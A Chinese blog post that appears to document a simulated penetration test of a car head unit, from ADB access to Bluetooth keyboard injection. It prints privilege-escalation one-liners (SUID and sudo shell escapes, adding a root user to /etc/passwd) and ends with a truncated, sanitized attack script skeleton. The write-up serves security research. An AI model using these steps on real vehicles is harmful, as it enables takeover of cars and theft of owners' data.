# 车联网安全渗透实战：从ADB到GPS欺骗的全链路攻击分析 -先知社区

> **来源**: https://xz.aliyun.com/news/19170  
> **文章ID**: 19170

---

# **车联网安全之渗透实战**

*本文仅用于安全研究目的，请遵守相关法律法规，勿用于非法用途。*

# 前言

随着汽车智能化、网联化快速发展，车联网安全已成为网络安全和物理安全交汇的新战场。然而，当前车联网渗透测试资源相对匮乏，相关知识分散在各个技术领域，缺乏系统化的实战指导。

​

本次博客基于一次模拟渗透测试经验，系统梳理车联网全域攻击面，涵盖车载系统、通信协议、移动应用和云端平台等多个维度。通过对车联网完整生态的安全分析，为安全研究人员提供一套实用的渗透测试方法论。

​

在内容呈现上，我们遵循负责任的漏洞披露原则，对涉及的敏感信息进行必要处理。同时，由于车联网安全技术仍在快速发展中，手册中难免存在不足之处，欢迎各位同行通过我的邮箱rlyhtpltz@gmail.com交流指正，共同推动车联网安全生态的完善。

​

让我们携手构建更安全的智能出行未来。

​

以下是针对这些漏洞类型所必需的**前置知识**，它将系统性地构建起实战所需的知识体系~~(后面也许更新关于车的固件方面和can总线)~~

# **前置知识**

在进行车联网渗透实战之前，需要掌握以下几个核心领域的知识。这些知识构成了理解和利用上述漏洞的基础。

## **1. 车载网络与架构基础**

这是理解“车”本身的基石。

* **车载网络协议**：

* **CAN总线**：车辆最常用的控制网络，理解其**广播、无认证、无加密**的特性是关键。需要掌握CAN帧结构、如何监听与分析CAN流量，以及如何通过发送特定CAN报文实现对车辆ECU的控制。
* **以太网**：在现代架构中，用于连接信息娱乐系统、网关、ADAS等高性能模块。需要了解**DoIP**协议，以及基于IP的车内服务发现。

* **电子控制单元（ECU）**：了解车辆中各个ECU的功能（如动力总成、车身控制、信息娱乐等），以及它们之间如何通过网关进行通信和隔离。

## **2. 渗透测试通用技能**

这是所有网络安全渗透的共性基础。

* **操作系统与命令行**：熟练使用 **Linux**（特别是Kali Linux）和Windows命令行。
* **网络基础**：深入理解 **TCP/IP协议栈**、路由交换、VLAN划分以及常见的网络服务。
* **常见漏洞原理**：理解如**信息泄露、权限提升、未授权访问**等漏洞的根本成因和利用方法。

## **3. 硬件与诊断接口利用**

这是接触和接入车辆系统的第一道门。

* **硬件接口**：

* **OBD-II**：车辆的标准诊断接口，是连接CAN总线和其他车载网络的物理桥梁。
* **调试接口**：如**UART, JTAG, SWD**，用于与车载硬件直接通信，常用于固件提取和底层调试。

* **调试工具与协议**：

* **ADB**：正如您漏洞列表中的“adb提权”，ADB是调试安卓系统（常见于车机）的强大工具。需要掌握其连接、命令以及对系统分区和权限的深入操作。
* **SSH/Telnet**：某些系统会开启这些服务，作为后门或调试通道。

## **4. 无线通信与远程攻击**

这是实现“远程”渗透的关键。

* **Wi-Fi**：

* 理解AP（接入点）和Client模式。
* 掌握针对Wi-Fi的攻击，如**认证洪水攻击**、密钥重装攻击等，可用于干扰或渗透车辆的热点功能。

* **蓝牙**：

* 了解BLE协议，掌握GATT服务发现、特征值读写等操作。
* 熟悉针对蓝牙的嗅探和漏洞利用，以渗透车辆的蓝牙模块（如蓝牙钥匙、电话系统）。

* **GPS欺骗**：

* 理解GPS信号的生成与接收原理。
* 掌握使用软件定义无线电工具（如**HackRF, BladeRF**）或手机APP生成并发射模拟的GPS信号，以欺骗车辆的导航系统。

## **5. 移动应用与云端安全**

这是攻击车联网生态的延伸。

* **移动应用安全**：

* 掌握对车控App的**逆向工程**（使用工具如Jadx-GUI, Frida, Objection）。
* 分析App与云端API的通信，寻找**硬编码密钥、逻辑漏洞、证书绕过**等问题。

* **云端API安全**：

* 熟悉RESTful API的测试方法，关注**身份认证、授权、参数篡改、IDOR**等常见Web漏洞。

## **6. 常用工具集**

* **车载网络**：CANtact, SocketCAN, Kayak, Wireshark（带有CAN插件）
* **硬件调试**：逻辑分析仪、示波器、USB to TTL适配器、Shikra
* **无线安全**：Aircrack-ng套装, Wireshark, Kismet, GATTool, GPS-SDR-SIM
* **逆向与开发**：Ghidra, IDA Pro, ADB, Frida, Burp Suite/Postman

# **实战测试**

注：配图非原图，保密性的关系，原图没办法放出来，帮助大家理解下这个流程。

## adb

一些车的adb接口会暴露在外且调试模式的密码也暴露在网上，可以进行信息搜集得到从而进入adb  




从而可以连接  


有了普通用户权限就可以进行获取（adb pull)部分文件，例如sdcard文件夹这类文件

sdcard文件夹是Android设备中用于存储用户数据的重要文件夹，用户可以通过文件管理器或计算机轻松访问和管理其中的文件。 sdcard文件夹的定义 在Android系统中，sdcard文件夹通常指的是手机内部存储或外部SD卡的存储区域。尽管某些设备可能没有物理SD卡，但系统会将内部存储的一部分模拟为sdcard，以便于用户管理文件。这个文件夹通常用于存储用户生成的数据，如照片、视频、下载的文件等

由于其“公共共享”的属性，`/sdcard` 目录在安全上存在几个固有弱点：

* **无沙盒保护**：与应用私有的数据目录（`/data/data/package_name/`）不同，`/sdcard` 不受Android沙盒机制的保护。任何拥有存储权限的应用或用户，都可以访问和修改其中的所有文件。
* **敏感信息泄露**：
* 许多应用为了便利，可能会错误地将缓存、日志、配置文件甚至包含令牌、密钥的数据库临时存放在这里。

* 用户自己也可能无意中将工作文档、个人照片、视频等敏感文件保存在此。

* **恶意文件投递与篡改**：
* 攻击者或恶意应用可以故意在 `/sdcard` 目录下放置一个伪装或恶意的配置文件、插件包等。

* 如果某个应用（例如车机上的某个高权限应用）不加验证地从 `/sdcard` 目录读取并执行了这些文件，就可能导致**权限提升**或**代码执行**。

## 提权

这个没什么好说的，一般来说就是linux提权

在车机渗透中，提权的核心目标是突破应用沙盒限制，从普通用户或`shell`权限提升至`root`权限，从而完全控制车机核心功能（如CAN总线、车辆设置等）。

**1. SUID提权 - 寻找高权限二进制文件**

* **核心思路**：在车机系统中，寻找被错误地设置了SUID权限的可执行文件。如果该文件允许执行命令或加载外部库，就能劫持它来获取root shell。
* **车机应用**：

1. **信息收集**：使用 `find / -perm -u=s -type f 2>/dev/null` 命令扫描车机。
2. **常见目标**：车机上可能存在用于系统维护、日志收集或硬件调试的定制二进制程序，这些是首要检查目标。
3. **利用**：如果发现 `find`、`cp`、`mount` 等命令具有SUID权限，即可直接利用（如 `find . -exec /bin/sh \;`）。对于自定义程序，可尝试参数注入或路径劫持。

**2. Sudo提权 - 滥用配置不当的sudo规则**

* **核心思路**：车机开发或测试人员可能为了方便，在 `/etc/sudoers` 中配置了无需密码即可以root身份运行特定命令的规则。
* **车机应用**：

1. **检查配置**：执行 `sudo -l` 查看当前用户无需密码即可运行的命令。
2. **利用**：如果发现可以无密码运行 `python`、`perl`、`less`、`vi`、`tar` 等，即可直接提权。

* `sudo python -c 'import os; os.system("/bin/sh")'`
* `sudo less /etc/hosts` → 在less中输入 `!bash`

**3. 内核漏洞提权 - 利用系统底层漏洞**

* **核心思路**：车机系统内核版本往往滞后且长期不更新，存在公开的提权漏洞（如经典的Dirty Cow）。
* **车机应用**：

1. **信息收集**：使用 `uname -a` 查看内核版本和系统架构。
2. **寻找Exp**：根据内核版本，在Kali的 `searchsploit` 或GitHub上搜索对应的提权Exp。
3. **交叉编译与执行**：将Exp源码通过交叉编译工具链编译成车机架构（通常是arm/arm64）的可执行文件，然后上传到车机执行。这是最直接、最有效的root手段之一。

**4. Cron Jobs提权 - 利用定时任务**

* **核心思路**：利用以root权限运行的定时任务脚本的弱点。
* **车机应用**：

* **通配符注入**：如果定时任务中使用 `tar *` 等带通配符的命令打包文件，可以在该目录下创建以命令行参数命名的文件（如 `--checkpoint=1`）来执行任意命令。
* **脚本覆盖**：如果发现一个以root权限运行且普通用户有写权限的脚本文件，可以直接修改该脚本，插入反向Shell等命令，等待定时任务执行。

**5. 环境变量劫持 - PATH滥用**

* **核心思路**：利用SUID程序在调用系统命令（如 `cat`、`id`）时，是从 `PATH` 环境变量中查找路径的这一特性。
* **车机应用**：

1. 找到一个调用了系统命令的SUID程序（例如一个自定义的日志查看工具）。
2. 编写一个与它所调用的命令同名的恶意程序（如 `/tmp/cat`）。
3. 通过 `export PATH=/tmp:$PATH` 将 `/tmp` 目录置于系统路径最前。
4. 运行该SUID程序，它会优先执行位于 `/tmp` 的恶意程序，从而以root权限获得Shell。

**6. /etc/passwd 提权 - 直接添加用户**

* **核心思路**：如果 `/etc/passwd` 文件意外地具有写权限，可以直接添加一个密码为空的root用户。
* **车机应用**：

1. **检查权限**：`ls -l /etc/passwd`
2. **生成密码**：使用 `openssl passwd -1` 或 `mkpasswd` 生成一个密码哈希。
3. **添加用户**：将 `test:generatedhash:0:0:root:/root:/bin/bash` 追加到 `/etc/passwd` 文件中。
4. **切换用户**：使用 `su test` 并输入密码，即可获得root权限。

实战情况是在进入adb 模式后，尝试搜索suid文件提权，发现后门文件，尝试执行，成功提权root



有了root基本上不用多讲了，相当于车辆控制权沦陷，数据与隐私的彻底泄露，攻击持久化与隐蔽

## 车辆控制

下面以一个服务暴露的例子讲解  
与[这个](https://www.iotsec-zone.com/article/164)思路类似，将摄像头与互联网进行连接初始化之后，使用nmap扫描摄像头的开放端口：  
发现20000端口存在服务

使用nc直接连接，进入了console模式，输入help查看可以执行的命令



这里可以控制摄像头，并且上传下载任意文件，修改图片分辨率，以及查看摄像头各种信息等等（车机的系统apk逆向也能发现这些代码  




canema可以获取视图的相机矩阵，并且可以进行修改相机数据，从而造成汽车泊车影像数据被影响



分别可以设置PTS侧边警告以及控制挂R挡时的辅助功能逻辑这些功能甚至可以进行从而远程控制，建议鉴权

**车辆信息泄露**

好的，车辆信息泄露是一个涵盖范围很广的安全风险。根据泄露信息的性质和危害程度，可以将其分为以下几大类：

### **车辆信息泄露类型总结**

#### **1. 个人隐私数据泄露**

这是最直接影响用户的泄露类型，主要涉及车主和乘客的身份与行为习惯。

* **身份信息**：车辆VIN码、车主姓名、联系方式、账户信息等。
* **生物信息**：通过车载摄像头捕获的驾驶员或乘客的面容、通过麦克风录制的车内对话。
* **行为与位置数据**：

* **历史与实时位置**：GPS轨迹、常去地点（家庭、公司、习惯路线）。
* **驾驶行为**：行驶速度、急加速/急刹车频率、里程数、通话记录。
* **车载娱乐数据**：搜索历史、播放列表、收藏夹。

例如抓包筛选

车机上抓取流量进行分析http.request.method==“POST”  


#### **2. 车辆状态与控制信号泄露**

这类泄露直接暴露车辆自身的实时动态和关键参数，可能被用于后续攻击。

* **CAN总线数据**：这是最核心的泄露之一。通过嗅探CAN总线，可以获取：

* **控制指令**：方向盘转角、刹车踏板开度、油门状态、档位信息。
* **车辆状态**：车速、发动机转速、油耗、电池电量（新能源车）、胎压、车门/车窗开关状态。

* **关键系统日志**：ECU错误代码、诊断日志、系统故障信息。  
  例如环境变量：  
  

#### **3. 数字资产与凭证泄露**

这类泄露为攻击者提供了进入更广阔攻击面的“钥匙”。

* **系统文件与固件**：从车机或ECU中提取的固件镜像，可用于离线漏洞分析。
* **安全凭证**：

* **Wi-Fi密码**：车辆保存的已连接热点密码。
* **蓝牙配对密钥**：与手机等设备连接的密钥。
* **云端服务令牌**：用于访问车企云平台（如远程控制、状态查询）的API密钥或身份令牌。

* **应用数据**：车控App在本地存储的缓存、数据库（可能包含用户账号、车辆绑定信息）。

#### **4. 商业与供应链信息泄露**

这类泄露主要对车企构成风险。

* **知识产权**：通过反编译车机App或提取ECU固件，获取其源代码、算法（如ADAS感知算法、电池管理逻辑）。
* **供应链信息**：固件中暴露的供应商信息、硬件组件型号版本。

**泄露途径与危害**

|  |  |  |
| --- | --- | --- |
| 泄露途径 | 可能导致泄露的信息 | 潜在危害 |
| **不安全的诊断接口** (OBD-II) | CAN总线数据、车辆状态、VIN码 | 被克隆车辆、窃取数据、注入恶意指令 |
| **被入侵的车载娱乐系统** | 个人数据、存储的凭证、麦克风/摄像头访问权 | 侵犯隐私、身份盗窃、敲诈勒索 |
| **不安全的车云通信** | 车辆定位、控制指令、用户账号信息 | 批量监控车辆、远程操控、盗取用户数据 |
| **不安全的移动应用** | 用户账号、车辆控制权限、GPS历史 | 账户被盗、车辆被远程解锁或启动 |
| **物理接触** (如维修) | 直接读取ECU、拆卸存储芯片 | 固件提取、密钥窃取 |

例子1：  
车内的系统软件在车辆进行拍照辅助时等可能会保存车主的一些敏感信息。  
这是获取到的：





里面也有车辆的函数，这里就不展示了

可以通过数据加密存储或者数据匿名化进行解决

例子2：  
连接车辆adb，再模拟正常用户利用车载蓝牙通话时，通过adb调试命令loctcat抓取系统实时日志信息  


  
可以看到有电话泄露，相当于获取用户的通讯录，这部分使用加密通信可以解决问题

## **蓝牙控制**

工具：蓝牙网卡，蓝牙键盘


蓝牙网卡扫描

**攻击原理**

* 利用车机蓝牙接口的安全漏洞
* 模拟蓝牙键盘设备进行未授权连接
* 通过键盘输入操控车辆功能（如空调控制）

流程：

```
环境准备 → 蓝牙扫描 → MAC地址获取 → 代码编译 → 攻击执行 → 车辆控制
```



可以扫到mac地址，使用脚本模拟蓝牙键盘控制车载平板从而可以远控

打开蓝牙键盘电源，按connect键进入配对模式，与车机蓝牙进行配对，连接成功后显示已连接Bluetooth keyboard，用蓝牙键盘操作车机界面，获取车机操控参数1.1.1 未授权蓝牙连接及控车（代码复现）

GitHub项目

git clone <https://github.com/marcnewlin/hi_my_name_is_keyboard.git>

下载完成后，执行cd hi\_my\_name\_is\_keyboard，进入hi\_my\_name\_is\_keyboard文件夹

进入终端用蓝牙网卡扫一遍扫到匹配的mac地址

通过蓝牙键盘按下的按键传回的响应码进行映射可进行重放攻击，这里脚本就不贴了，只给出思路  


另外蓝牙键盘还可以进行爆破密码等操作，一些adb密钥或者root密钥都可以进行尝试  
示例脚本

```
import argparse
import re
import time
from multiprocessing import Process

# 模拟导入安全测试模块
from security_tools.helpers import validate_target, log, execute_command
from security_tools.client import TestClient
from security_tools.adapter import DeviceAdapter
from security_tools.agent import SecurityAgent
from security_tools.hid import KeyCode, Modifier
from security_tools.profile import register_test_profile

def parse_arguments():
    """解析命令行参数"""
    parser = argparse.ArgumentParser("security_test_tool.py")
    parser.add_argument("-i", "--interface", required=True, 
                       help="测试接口名称")
    parser.add_argument("-t", "--target_address", required=True,
                       help="目标设备地址")
    return parser.parse_args()

def initialize_test_environment(interface, target_address):
    """初始化测试环境"""
    # 验证参数格式
    validate_target(target_address)
    assert re.match(r"^test\d+$", interface), "接口格式不正确"
    
    # 重启测试服务
    execute_command(["sudo", "service", "test_service", "restart"])
    time.sleep(0.5)
    
    return True

def setup_test_profile(interface, target_address):
    """设置测试配置文件"""
    profile_process = Process(
        target=register_test_profile, 
        args=(interface, target_address)
    )
    profile_process.start()
    return profile_process

def configure_test_adapter(interface):
    """配置测试适配器"""
    log.status("正在配置测试适配器")
    adapter = DeviceAdapter(interface)
    adapter.set_identifier("Security Test Tool")
    adapter.set_device_class(0x002540)
    return adapter

def establish_test_connection(adapter, target_address):
    """建立测试连接"""
    log.status("正在连接测试协议")
    
    # 创建测试客户端
    client = TestClient(target_address, auto_ack=True)
    
    # 连接基础协议
    while not client.connect_basic_protocol():
        log.debug("尝试连接基础协议")
        time.sleep(0.1)
    
    adapter.enable_security_features()
    log.success("基础协议连接成功")
    
    return client

def perform_security_test(client, adapter, target_address):
    """执行安全测试"""
    with SecurityAgent(adapter.interface, target_address):
        # 建立测试通道连接
        establish_test_channels(client)
        
        # 发送初始化信号
        client.send_initialization_signal()
        
        # 执行测试序列
        execute_test_sequence(client)

def establish_test_channels(client):
    """建立测试通道"""
    # 连接数据通道
    client.connect_data_channel()
    client.connect_control_channel()
    
    # 验证通道状态
    start_time = time.time()
    while (time.time() - start_time) < 1:
        if not client.data_channel.connected or not client.control_channel.connected:
            break
        time.sleep(0.001)
    
    # 确保数据通道连接
    if not client.data_channel.connected:
        log.status("连接数据通道")
        while not client.connect_data_channel():
            log.debug("尝试连接数据通道")
            time.sleep(0.001)
    log.success("数据通道连接成功")
    
    # 确保控制通道连接
    if not client.control_channel.connected:
        log.status("连接控制通道")
        while not client.connect_control_channel():
            log.debug("尝试连接控制通道")
            time.sleep(0.001)
    log.success("控制通道连接成功")

def execute_test_sequence(client):
    """执行测试序列"""
    # 发送测试开始信号
